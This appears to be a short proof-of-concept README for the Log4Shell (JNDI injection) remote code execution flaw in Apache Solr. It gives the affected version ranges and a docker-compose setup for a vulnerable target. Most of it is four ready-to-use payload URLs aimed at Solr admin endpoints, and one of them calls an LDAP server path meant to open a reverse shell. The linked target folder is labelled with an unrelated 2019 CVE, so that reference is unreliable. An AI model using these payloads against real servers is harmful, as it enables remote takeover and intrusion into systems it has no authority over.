

# Apache Solr log4j RCE

## Version

```
v7.4.0 <= Solr <= v7.7.3
v8.0.0 <= Solr < v8.11.1
```

## vulnerable app

```
https://github.com/cckuailong/reapoc/tree/main/2019/CVE-2019-17558/vultarget

docker-compose up -d
```

## Poc

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/9999}&wt=json
```

```
/solr/admin/cores?action=CREATE&name=$%7Bjndi:ldap://0.0.0.0/123%7D&wt=json
```

```
/solr/admin/info/system?_=${jndi:ldap://0.0.0.0/123}&wt=json
```

```
/solr/admin/cores?_=&action=&config=&dataDir=&instanceDir=${jndi:ldap://0.0.0.0/123}&name=&schema=&wt=
```



P.S. Many log4j pocs in Solr, I got nearly 1000+ different pocs, so get others yourself